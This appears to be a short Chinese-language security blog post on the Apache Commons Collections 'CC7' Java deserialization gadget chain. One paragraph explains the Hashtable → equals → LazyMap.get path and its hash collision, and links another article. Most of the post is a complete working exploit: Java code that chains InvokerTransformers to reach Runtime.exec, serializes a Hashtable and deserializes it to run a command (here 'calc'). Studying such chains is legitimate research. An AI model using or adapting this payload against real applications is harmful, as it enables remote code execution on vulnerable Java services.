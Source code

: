 入口点利用了 HashTable 通过 readObject 中调用`reconstitutionPut`,然后又调用了 equals，然后找到了 AbstractMapDecorator 类中的 equals 方法中调用了 get 方法。

然后在 equals 中存在一个哈希碰撞，比较罕见，这里就不展开来研究了，可以参考 fakesoul 师傅写的文章：

[https://xz.aliyun.com/t/12207#toc-10](https://xz.aliyun.com/t/12207#toc-10)

```plain
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class cc7 {
    public static void main(String[] args) throws NoSuchFieldException,
            IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);
        Map innerMap1 = new HashMap();
        innerMap1.put("pP",1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo",1);
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1,1);
        hashtable.put(lazyMap2,2);
        lazyMap2.remove("pP");
        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,transforms);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashtable);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

